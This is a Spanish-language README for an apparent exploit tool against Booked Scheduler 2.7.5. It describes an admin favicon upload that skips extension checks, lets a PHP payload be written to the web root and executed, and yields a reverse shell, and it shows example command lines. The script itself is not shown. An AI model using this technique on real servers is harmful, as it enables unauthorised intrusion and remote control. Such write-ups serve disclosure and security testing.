 # Booked Scheduler v2.7.5 Remote Command Execution

## Descripción
Este exploit aprovecha una vulnerabilidad de carga de archivos de Booked 2.7.5
En la sección **"Look and Feel"** `/booked/Web/admin/manage_theme.php`, se pueden modificar los archivos **Logo-Favicon-CSS**.
Las secciones de subida tienen control de la extensión del archivo, excepto la parte del favicon.
Puedes subir el archivo con la extensión que quieras a través del campo **Favicon**.
El archivo que subes se escribe en el directorio principal del sitio `/booked/Web/custom-favicon.php` con el nombre **"custom-favicon"**.
Después de subir el payload php al directorio principal, el Exploit ejecuta el payload y recibe la shell.

## Uso
```python
 python3 bookedScheduler.py <target ip> <target port> <user> <password> <local ip> <local port>
```
## EJEMPLO:
```python
 python3 bookedScheduler.py 192.168.88.64 8003 "admin" "adminadmin" 192.168.88.64 22
```
![bookedExploit](https://github.com/hacknotes/Booked-Scheduler-v2.7.5-Remote-Command-Execution/blob/main/booked.png)
